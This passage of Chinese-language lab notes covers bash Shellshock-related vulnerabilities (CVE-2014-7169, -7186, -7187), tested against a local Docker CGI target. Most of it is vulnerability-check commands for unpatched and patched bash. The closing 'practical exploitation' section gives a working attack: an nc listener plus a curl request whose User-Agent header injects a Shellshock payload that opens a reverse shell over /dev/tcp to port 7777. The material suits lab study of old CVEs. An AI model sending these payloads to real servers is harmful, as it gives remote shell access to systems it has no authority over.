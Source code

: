 ### CVE-2014-7169

```bash
# TODO 目前只测试验证了本地环境exploit，远程CGI环境的exploit还没有复现成功
# 以下命令执行成功后会在当前目录下创建一个名为 echo 的文件，文件内容是以下命令的执行时间
env X='() { (a)=>\' /usr/local/bash-4.3.0/bin/bash -c "echo date"; cat echo

curl -H "User-Agent: '() { (a)=>\\' /usr/local/bash-4.3.0/bin/bash -c \"echo date\"; cat echo" http://127.0.0.1/victim.cgi

# 已打补丁情况下的测试
env X='() { (a)=>\' bash -c "echo date"; cat echo
```

### CVE-2014-7186

```bash
# TODO 目前只测试验证了本地环境exploit，远程CGI环境的exploit还没有复现成功
/usr/local/bash-4.3.0/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"

# 已打补丁情况下的测试
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"
```

### CVE-2014-7187

```bash
# TODO 目前只测试验证了本地环境exploit，本地和远程CGI环境的exploit均没有复现成功
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | /usr/local/bash-4.3.0/bin/bash || echo "CVE-2014-7187 vulnerable, word_lineno"

# 已打补丁情况下的测试
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 漏洞实战利用

```bash
# 安装 nc
sudo apt update && sudo apt install netcat

# 在docker的宿主机上 nc 建立本地监听
# 在一个 tmux 窗口中开启nc监听
nc.traditional -l -p 7777

# 在另一个 tmux 窗口中发起攻击
# 建立反向连接
# 此处 docker 宿主机的容器默认网卡IP是 172.17.0.1
# 攻击成功终端没有任何回显，会“卡住”当前curl连接，最后504超时退出当前http连接但并不会影响已经建立起的反向连接
curl -H "User-Agent: () { ignored;};/usr/local/bash-4.3.0/bin/bash -i >& /dev/tcp/172.17.0.1/7777 0>&1" http://127.0.0.1/victim.cgi
```
